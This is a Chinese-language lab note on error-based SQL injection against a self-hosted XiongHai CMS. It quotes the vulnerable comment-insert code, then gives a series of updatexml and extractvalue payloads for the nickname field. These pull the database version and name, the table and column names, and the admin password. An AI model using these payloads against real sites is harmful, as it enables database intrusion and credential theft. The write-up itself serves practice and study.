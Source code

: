 ```yaml
---
{"date":null,"tags":["安全/靶场"],"url":null,"dg-publish":true,"permalink":"/随记/自建环境_SQL报错盲注测试_{2024-08-01}/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
# 环境介绍

利用的是熊海CMS


在 `files/submit.php` 提交评论的文件中，有这样的代码
```php
$query = "INSERT INTO interaction (  
type,  
xs,  
cid,  
name,  
mail,  
url,  
touxiang,  
shebei,  
ip,  
content,  
tz,  
date  
) VALUES (  
'$type',  
'$xs',  
'$cid',  
'$name',  
'$mail',  
'$url',  
'$touxiang',  
'$shebei',  
'$ip',  
'$content',  
'$tz',  
now()  
)";  
@mysql_query($query) or die('新增错误：'.mysql_error());
```

也就是接收评论的信息然后插入数据库，最重要的是后面有报错返回

# 进行注入

接下来尝试将昵称改为payload

```sql
' and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1) and '
```
注意要闭合单引号


![Pasted image 20240801105510.png](/img/user/picture/Pasted%20image%2020240801105510.png)

发现确实可以注入


## 获取数据库名

```sql
' and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and '
```
![Pasted image 20240801105955.png](/img/user/picture/Pasted%20image%2020240801105955.png)

## 获取表名

构建payload
```sql
' and updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),0x7e),1) and '

```
`LIMIT 0,1` 用于逐步获取表名。你可以从 `LIMIT 0,1` 开始，逐步增加偏移量来获取更多的表名，例如 `LIMIT 1,1`、`LIMIT 2,1` 等。
![Pasted image 20240801114453.png](/img/user/picture/Pasted%20image%2020240801114453.png)

## 获取列名

以表`manang`为例

```sql
' and updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='manage' LIMIT 0,1),0x7e),1) and '

```

![Pasted image 20240801115106.png](/img/user/picture/Pasted%20image%2020240801115106.png)

得到列名
id,user,name,password,img,mail



## 表中信息

```sql
' and updatexml(1,concat(0x7e,(SELECT name FROM seacms.manage WHERE id='1' LIMIT 0,1),0x7e),1) and '
```

![Pasted image 20240801115533.png](/img/user/picture/Pasted%20image%2020240801115533.png)

发现在显示密码的时候显示不全
```sql
' and extractvalue(1, concat(0x7e, (SELECT password FROM seacms.manage WHERE id='1' LIMIT 0,1), 0x7e)) and '
```
